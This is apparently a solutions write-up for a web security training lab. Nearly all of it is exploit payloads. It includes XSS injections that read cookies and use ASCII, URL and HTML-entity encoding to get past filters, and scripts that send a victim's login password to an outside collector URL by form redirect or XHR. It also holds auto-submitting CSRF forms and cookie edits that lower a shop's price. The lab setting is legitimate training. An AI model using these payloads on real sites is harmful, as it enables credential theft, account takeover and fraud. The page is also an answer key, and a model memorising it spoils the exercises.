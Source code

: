 ### XSS Type 1 - Hello world!

Vulnerability: 
The browser will execute any javascript in input tag.

Exploit:

    <script>
    call_upon_injection();
    </script>

How: 
The parser in the browser will executes javascript when it sees any `<script>` tag.

### XSS Type 1 - Filtering: The Return

Exploit:

    <script>
    document.getElementById('stolen_cookie').value = document.cookie;
    </script>

How:
The default script in modern browsers is javascript so only `<script>` is enough.
Single quotes work in the same way double quotes work.

### XSS Type 1 - Filtering: The Last Stand

Exploit:

    <script>
    document.getElementById(String.fromCharCode(115, 116, 111, 108, 101, 110, 095, 099, 111, 111, 107, 105, 101)).value = document.cookie;
    </script>

How:
Generate string using ascii code to bypass the single quote and double quote filtering.

### XSS Type 1 - Filtering: Another one bites the dust

Exploit:

    <script>
    eval(unescape(/%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%42%79%49%64%28%27%73%74%6F%6C%65%6E%5F%63%6F%6F%6B%69%65%27%29%2E%76%61%6C%75%65%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B/).slice(1,-1));
    </script>

### XSS Type 1 - Filtering: Revolution

Exploit:

    <img src=wth onError=eval(unescape(/%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%42%79%49%64%28%27%73%74%6F%6C%65%6E%5F%63%6F%6F%6B%69%65%27%29%2E%76%61%6C%75%65%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B/).slice(1,-1))>

### XSS Type 1 - Filtering: The End

Exploit:

    <img src=wth onError=&#x20&#x64&#x6F&#x63&#x75&#x6D&#x65&#x6E&#x74&#x2E&#x67&#x65&#x74&#x45&#x6C&#x65&#x6D&#x65&#x6E&#x74&#x42&#x79&#x49&#x64&#x28&#x27&#x73&#x74&#x6F&#x6C&#x65&#x6E&#x5F&#x63&#x6F&#x6F&#x6B&#x69&#x65&#x27&#x29&#x2E&#x76&#x61&#x6C&#x75&#x65&#x20&#x3D&#x20&#x64&#x6F&#x63&#x75&#x6D&#x65&#x6E&#x74&#x2E&#x63&#x6F&#x6F&#x6B&#x69&#x65&#x3B>

### XSS Type 2 - Hello World

Vulnerability:
The browser will execute javascript when the code is loaded from database.

Exploit:

    <script>
    call_upon_injection();
    </script>

How:
The parser in the browser will executes javascript when it sees any `<script>` tag.

### XSS Type 2 - The iframe tag

Exploit:

    <iframe src=# onmouseover="call_upon_injection()"></iframe>


### XSS Payloads - Steal the password (Redirect)

Vulnerability:
The form's action can be changed when browser is parsing javascript in message.

Exploit:
    
    <script>
    document.forms("login").action = "http://powned/exercises/xss/giveMeThePassword.php";
    </script>

How:
The browser will execute javascript to change the action of the form so that the form will be submitted to http://powned/exercises/xss/giveMeThePassword.php.

### XSS Payloads - Steal the password (XHR)

Exploit:

    <script>
    document.forms["login"].onsubmit = function() {myFunction()};
    function myFunction() {
        var http = new XMLHttpRequest();
        var url = "http://powned/exercises/xss/giveMeThePassword.php";
        var params = "password="+document.forms["login"].password.value;
        http.open("GET", url+"?"+params, false);
        http.send(null);
    }
    </script>

### XSS Payloads - Camouflage

Exploit:

    <script>
    document.getElementById('subtitle').innerHTML = "We are pathetic and you know that!";
    document.getElementById('tr2').style.display = 'none';
    </script>

### CSRF - Zero-sum game

Exploit:

    http://webseclab-vm/exercises/csrf/csrf_basic.php?from=1&to=3

### CSRF - My POST email

Exploit:

    <form id="myForm" action="http://webseclab-vm/exercises/csrf/csrf_email_post.php" method="POST">
    <input type="hidden" name="newEmail" value="pwn5@pwnd.com"/>
    <input type="hidden" name="uid" value="1"/>
    </form>
    <script>
    document.getElementById("myForm").submit();
    window.location.replace("http://www.stanford.edu");
    </script>

### CSRF - Has my time come?

Exploit:

### Session - Protect the shop

Exploit:

    setcookie("user", $user, time()+3600, null, null, null, true);
    setcookie("price", $price, time()+3600, null, null, null, true);

### Session - Buy it cheaper #2

Exploit:

    document.cookie="price=299;";

### Session - Buy it cheaper #3

Exploit:

    var cont = 42 * 299;
    document.cookie="price=299;";
    document.cookie="control="+cont+";";

### Session - Buy it cheaper #5

Exploit:

    var cont = 24 * 6 * 299;
    document.cookie="price=299;";
    document.cookie="control="+cont+";";

### Session - Buy it cheaper #6

Exploit:

    var cont = "3956e4b5c8dc7982f985c5f495c7c49fbe95dcc7";
    document.cookie="price=299;";
    document.cookie="control="+cont+";";

### Session - Has my time come?

Exploit:

    <script>
    var d = new Date();
    var token = String(d.getTime()).slice(0,10);
    document.write(token);

    var html = '<form id="myForm" action="http://webseclab-vm/exercises/csrf/csrf_token.php" method="GET"><input type="hidden" name="token" value=' + token + '/><input type="hidden" name="from" value="1"/><input type="hidden" name="to" value="4"/><input value="Free money!" type="submit"></form>';
document.write(html);
    </script>

### Session - HTTP parameter pollution

Exploit:

    Bob&from=Alice
